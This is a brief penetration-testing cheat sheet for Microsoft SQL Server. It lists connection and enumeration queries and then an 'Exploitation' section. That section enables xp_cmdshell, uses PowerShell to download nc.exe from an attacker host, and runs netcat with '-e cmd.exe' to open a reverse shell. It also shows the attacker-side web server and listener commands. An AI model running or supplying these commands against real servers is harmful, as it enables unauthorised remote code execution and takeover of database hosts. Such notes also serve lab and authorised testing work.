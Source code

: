 #database 
## Info
- **Type:** Relational Database Management System (RDBMS)
- **Common Usage:** Enterprise applications, web applications, Windows-based infrastructure
- **Security Note:** MSSQL servers may be vulnerable to **default credentials, weak authentication, XP_CMDSHELL abuse, and privilege escalation attacks**.

## Basic Commands
```bash
# Connect using authentication
mssqlclient.py $USER@$IP -windows-auth

# List databases
SELECT name FROM master.dbo.sysdatabases;

# Select a database
USE $DATABASE;

# List tables in the current database
SELECT * FROM information_schema.tables;

# List all users
SELECT name FROM master.sys.syslogins;

# Get current user
SELECT SYSTEM_USER;

# Checking Permissions
SELECT IS_SRVROLEMEMBER('sysadmin');
```

## Exploitation
```sql
enable_xp_cmdshell
xp_cmdshell "powershell -c pwd"
xp_cmdshell "powershell -c cd C:\Users\sql_svc\Downloads; wget http:///$HOST/nc.exe -outfile nc.exe"
xp_cmdshell "powershell -c cd C:\Users\sql_svc\Downloads; .\nc.exe -e cmd.exe $HOST $PORT"
```

```bash
sudo python3 -m http.server 80
```

```bash
sudo nc -lnvp 443
```